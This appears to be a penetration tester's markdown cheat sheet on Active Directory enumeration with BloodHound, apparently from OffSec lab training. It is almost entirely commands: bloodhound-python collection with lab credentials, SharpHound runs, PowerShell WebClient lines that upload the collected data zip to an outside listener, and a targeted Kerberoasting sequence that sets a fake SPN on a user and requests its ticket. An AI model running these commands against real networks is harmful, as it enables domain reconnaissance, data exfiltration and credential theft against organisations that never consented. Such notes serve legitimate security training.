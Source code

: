 ### Bloodhound-python

```
sudo neo4j console
bloodhound
bloodhound-python -u enox -p california -ns $ip -d heist.offsec -c all
```

#### Custom Queries

```
MATCH (m:Computer) RETURN m
MATCH (m:User) RETURN m
MATCH p = (c:Computer)-[:HasSession]->(m:User) RETURN p

Replace the `customqueries.json` with one of the below files to update the custom queries within Bloodhound. Remember to restart Bloodhound after changing the JSON file.

**Locate custom queries file**

sudo find / -type f -name customqueries.json 2>/dev/null

Add one of the queries below:
https://github.com/CompassSecurity/BloodHoundQueries
https://github.com/hausec/Bloodhound-Custom-Queries
https://gist.github.com/seajaysec/a4d4a545047a51053d52cba567f78a9b


```

### Automate

```

Import-Module .\Sharphound.ps1
Get-Help Invoke-BloodHound
Invoke-BloodHound -CollectionMethod All -OutputDirectory C:\TEMP\ -OutputPrefix "medtech12audit"
ls C:\Users\stephanie\Desktop\


powershell.exe -c "(New-Object System.Net.WebClient).UploadFile('http://192.168.45.164:8000/', 'C:\temp\medtech12audit_20240208023054_BloodHound.zip')"

(New-Object System.Net.WebClient).UploadFile('http://192.168.45.164:8000/', 'C:\Users\stephanie\Desktop\corp audit_20240201105818_BloodHound.zip')



sudo neo4j start
**http://localhost:7474**
neo4j/neo4j
bloodhound


$SecPassword = ConvertTo-SecureString 'Password123!' -AsPlainText -Force

$Cred = New-Object System.Management.Automation.PSCredential('TESTLAB\dfm.a', $SecPassword)

Set-DomainObject -Credential $Cred -Identity harmj0y -SET @{serviceprincipalname='nonexistent/BLAHBLAH'}

Get-DomainSPNTicket -Credential $Cred harmj0y | fl

Set-DomainObject -Credential $Cred -Identity harmj0y -Clear serviceprincipalname

```